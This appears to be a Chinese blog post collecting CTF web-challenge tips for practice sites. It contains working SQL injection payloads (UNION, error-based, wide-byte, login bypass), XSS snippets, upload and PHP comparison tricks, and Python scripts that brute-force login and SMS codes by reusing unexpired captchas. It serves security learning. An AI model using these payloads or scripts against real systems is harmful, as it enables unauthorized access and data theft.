

<!--yml
category: 未分类
date: 2022-04-26 14:31:31
-->

# CTF学习-web解题思路_菜鸟-传奇的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_44204058/article/details/119963206](https://blog.csdn.net/qq_44204058/article/details/119963206)

# CTF学习-web题思路

**[持续更新](https://www.cnblogs.com/cainiao-chuanqi/p/15192414.html)**

### 1.直接查看源代码

### 2.修改或添加HTTP请求头

**常见的有：**

*   Referer来源伪造
*   X-Forwarded-For：ip伪造
*   User-Agent：用户代理(就是用什么浏览器什么的)
*   //.net的版本修改，后面添加，如版本9   .NET CLR 9
*   Accept-Language：语言
*   Cookie的修改

### 3.查看HTTP请求头或响应头

### **4.302跳转的中转网页有信息**

### 5.查看开发者工具控制台

### 6.javascript代码绕过

通过删除或修改代码或者本地代理改包绕过

**7.使用burp的repeater查看整个HTTP包**

### 8.阅读javascript代码，直接控制台获取正确密码

### 9.robots.txt文件获取信息

这本来是给搜索引擎看的信息，很可能暴露网站结构目录

### 10..bash_history，这个应该说看到过吧，就是记录用户输入过的linux命令的

## 前端脚本类

### js加解密

http://ctf5.shiyanbar.com/DUTCTF/1.html //直接在F12控制台粘贴就有了

### XSS

http://lab1.xseclab.com/realxss1_f123c17dd9c363334670101779193998/index.php

这题题目就有漏洞，直接在命令行输入下面的就有了

```
$.post("./getkey.php?ok=1",{'url':location.href,'ok':ok},function(data){
　　　　　　console.log(data);
　　　　});
showkey();

```

当然简单的直接输入

```
<script>alert(HackingLab)</script>

```

这样也可以

可以直接输入上题的那个jquery，也可以乖乖下面的

```


```

## 后端脚本类

### 代码审计

#### asp代码审计：

1.http://ctf8.shiyanbar.com/aspaudit/

长度限制:F12删maxlength，或者改长度，本地代理都可以绕过

//Username： 'union select 1,1,1 from bdmin ' ，为什么是三列呢，一般表中都会设置id，加上账号密码就3个了，不行就猜4列咯...，因为union的之前的用户名为空，所以前面的结果集为空，所以最后的结果集只有我们后面的1,1,1了，所以在密码那输入1就是密码。

这样也行，反正就闭合标签 'union select 1,1,1 from bdmin where '1'='1

#### php代码审计

1.http://ctf8.shiyanbar.com/phpaudit/ //其实这个就是修改http请求头的X-Forwarded-For

2.http://ctf1.shiyanbar.com/web/4/index.php //跟下面的后台登陆型第一个一样，请看下面的后台登陆型第一个

3.http://ctf5.shiyanbar.com/DUTCTF/index.php //二次urlencode

4.http://ctf1.shiyanbar.com/web/5/index.php //请看后台登陆型第二个

5.http://ctf4.shiyanbar.com/web/false.php //数组的哈希值，都是null

6.http://ctf4.shiyanbar.com/web/Session.php //只需要在第一次提交的时候直接提交password=即可，因为第一次访问时服务器那边也没设置对应的$_SESSION['password']，由于是==比较，两者是相等的。

表单隐藏 http://ctf10.shiyanbar.com:8888/main.php

### sql注入

简单的直接上工具就ko了，如sqlmap，等-——10大sql注入工具

如下面几个：

1.http://ctf5.shiyanbar.com:8080/9/asp.asp

2.http://ctf5.shiyanbar.com/8/index.php?id=1

当然不用and XX也是可以的，下面只是举个例子

```
//手工注入过程
//判断注入类型为and布尔型注入
http://ctf5.shiyanbar.com/8/index.php?id=1%20and%201=1
http://ctf5.shiyanbar.com/8/index.php?id=1%20and%201=2
//判断字段数
http://ctf5.shiyanbar.com/8/index.php?id=1%20order%20by%203
http://ctf5.shiyanbar.com/8/index.php?id=1%20order%20by%202
//获取数据库基本信息(//concat_ws是字符串连接函数，其中第一个参数是分隔符，CHAR(58)是冒号，因为冒号的ASCII是58)
http://ctf5.shiyanbar.com/8/index.php?id=1%20and%201=2%20union%20select%201,concat_ws(CHAR(58),user(),database(),version())
//获取数据库中的表,其中table_schema可以理解为数据库吧(他是mysql系统表里面的一个字段，这里我们用16进制表示，就是上一句查询到的数据库)
http://ctf5.shiyanbar.com/8/index.php?id=1%20and%201=2%20union%20select%201,table_name%20from%20information_schema.tables%20where%20table_schema=0x6d795f6462
//获取重要表的字段
http://ctf5.shiyanbar.com/8/index.php?id=1 and 1=2 union select 1,column_name from information_schema.columns where table_name=0x746869736b6579
//获取表中的内容
http://ctf5.shiyanbar.com/8/index.php?id=1 and 1=2 union select 1,k0y from thiskey

```

3.http://lab1.xseclab.com/sqli2_3265b4852c13383560327d1c31550b60/index.php

密码随便输入

 

4.http://lab1.xseclab.com/sqli3_6590b07a0a39c8c27932b92b0e151456/index.php

payload：

http://lab1.xseclab.com/sqli3_6590b07a0a39c8c27932b92b0e151456/index.php?id=1 or 1=1

5.http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=1

宽字节注入，在其他没头绪的时候必须考虑这个了，哎，而且题目都说过滤了

还有响应头：Content-Type：text/html; charset=gb2312
payload
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=1%a0%27 or 1=1 limit 2,1%23

6.http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0&num=1

```
利用报错注入

http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=7&num=1 procedure analyse(extractvalue(1,concat(0x3a,database())),1)

数据库：mydbs

http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=7&num=1 procedure analyse(extractvalue(1,concat(0x3a,(select table_name from information_schema.tables where table_schema=0x6d79646273 limit 0,1 ))),1)

爆表

http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=7&num=1 procedure analyse(extractvalue(1,concat(0x3a,(select concat(username,0x3a,password) from user limit 2,1 ))),1)

爆数据

```

### 写点脚本的

注意看响应头，You must do it as fast as you can!，这个手速是不行的，必须编程获取后解码，跟着post数据：key=XXXXXXXXXXXXX

http://ctf4.shiyanbar.com/web/10.php

脚本如下

```
import requests
import base64

url='http://ctf4.shiyanbar.com/web/10.php'
req=requests.get(url)
print req.text
key=req.headers['FLAG']
key=base64.b64decode(key)
key=key.split(':')[1].strip()
data={'key':key}
r=requests.post(url,data=data)
print(r.text)

```

### 后台登陆型

给了源代码，主要看sql语句，注释掉后面的and (pw='$pass')，当注意闭合小括号 payload ：user=admin')#&pass=432142

1.http://ctf1.shiyanbar.com/web/4/index.php

2.http://ctf1.shiyanbar.com/web/5/index.php

//这题可以看看asp代码审计第一题，你或许有思路，后面有答案鼠标刮过即可(鼠标选中冒号后面的空白)：user=' union select 'c4ca4238a0b923820dcc509a6f75849b' from php -- &pass=1

那个MD5是密码1的md5

### 代码逆向

http://www.shiyanbar.com/ctf/1760

**解密代码**

```
$cipher = 'a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws';
$tmp = base64_decode(strrev(str_rot13($cipher)));
echo $tmp;
$b = '';
for ($i=0; $i < strlen($tmp); $i++) {
　　$a = substr($tmp, $i, 1);
　　$b = $b.chr(ord($a)-1);
}
echo strrev($b);

```

### 上传绕过类

http://ctf4.shiyanbar.com/web/upload //这个注意看抓包的数据，既有路径，又有文件名，文件名不行，就试试路径的00截断 /uploads/sdf.php+十六进制的00

multipart/form-data大写绕过

### php的特性

**1.数字与字符串比较**

```
var_dump( 0 == "a" );
var_dump( "0" == "a" );

```

第一个返回的是 true ，第二个返回的是 false

因为php把字母开头的转化为整型时，转化为0， 前面数字后面字母的话就只取到第一个字母出现的位置之前(如intval(''123abd45gf)结果为123)

**2.md5“碰撞”**

因为php 0e开头的字符串都是==的，不是===哦

```
var_dump("0e462097431906854"=="0e83040041");

```

上面这个返回true，如果题目的md5是0e开头的，你懂的

下面给一组数据吧

```
md5('240610708') 的结果是：0e462097431906509019562988736854
md5('QNKCDZO') 的结果是：0e830400451993494058024219903391

```

240610708、QNKCDZO、aabg7XSs、aabC9RqS

**3.md5数组**

**4.strcmp(array,string) ==**

5.变量覆盖：register_globals的意思就是注册为全局变量，所以当On的时候，传递过来的值会被直接的注册为全局变量直接使用，而Off的时候，我们需要到特定的数组里去得到它。PHP4默认开启，PHP5以后默认关闭。
还有就是extract那个函数，也可以存在变量覆盖http://www.w3school.com.cn/php/func_array_extract.asp

6.ereg函数漏洞：00截断
%00

http://www.shiyanbar.com/ctf/1805

### 备份文件类型的

```
.bak ultroedit....
~
.xxxx.php.swp .xxxx.php.swo vim

```

### 验证码类的

http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/index.php

这个验证码的特点是，**在一次会话中**，下一次提交，上一次的验证码不会失效 。代码，具体要改cookie和验证码

```
import requests

url = "http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/login.php"
req = requests.session()
header = {"Cookie":"PHPSESSID=9b8f8686269f5d70a44766e3c5f4dcdc"}
for pwd in xrange(1000,10000):

　　data={'username':'admin','pwd':pwd,'vcode':'c3pe'}

　　ret = req.post(url, data=data, headers=header)
　　print ret.text
　　if 'error' not in ret.text:
　　　　print pwd
　　　　break

```

http://lab1.xseclab.com/vcode2_a6e6bac0b47c8187b09deb20babc0e85/index.php

程序猿：“该死的黑客，我让你绕！我验证一次就让你的验证码失效，看你怎么绕！”

这一关的验证码，验证一次以后就失效了，但是再次提交的时候就不需要再考虑验证码是否正确的问题了，所以在脚本中只要保证验证码为''的就可以

```
import requests

url = "http://lab1.xseclab.com/vcode2_a6e6bac0b47c8187b09deb20babc0e85/login.php"
req = requests.session()
header = {"Cookie":"PHPSESSID=3c39940da50b514038b3e9971ee5f57e"}

for pwd in xrange(1000,10000):
　　data={'username':'admin','pwd':pwd,'vcode':''}
　　ret = req.post(url, data=data, headers=header)

　　if 'error' not in ret.text:
　　　　print ret.text
　　　　print "good: password is:" + str(pwd)
　　　　break
　　else:
　　　　print "try:" + str(pwd) + " and result is :"+ ret.text

```

http://lab1.xseclab.com/vcode3_9d1ea7ad52ad93c04a837e0808b17097/index.php 跟上面一样的脚本

http://lab1.xseclab.com/vcode6_mobi_b46772933eb4c8b5175c67dbc44d8901/

爆破再爆破，点击验证码再运行脚本哦，跟着获得另一个手机号，再获取验证码，再修改手机号再运行脚本

```
import requests

url = "http://lab1.xseclab.com/vcode6_mobi_b46772933eb4c8b5175c67dbc44d8901/login.php"
req = requests.session()
header = {"Cookie":"PHPSESSID=61556a5b2a6c2a03a2f35b199cbb5364"}
for vcode in xrange(100,1000):
　　data={'username':'13388886666','vcode':vcode, 'Login':'submit'}
　　# data={'username':'13399999999','vcode':vcode, 'Login':'submit'}
　　ret = req.post(url, data=data, headers=header)
　　　　if 'error' not in ret.text:
　　　　　　print ret.text
　　　　　　print "good: vcode is:" + str(vcode)
　　　　　　break
　　　　else:
　　　　　　print "try:" + str(vcode) + " and result is :"+ ret.text 

```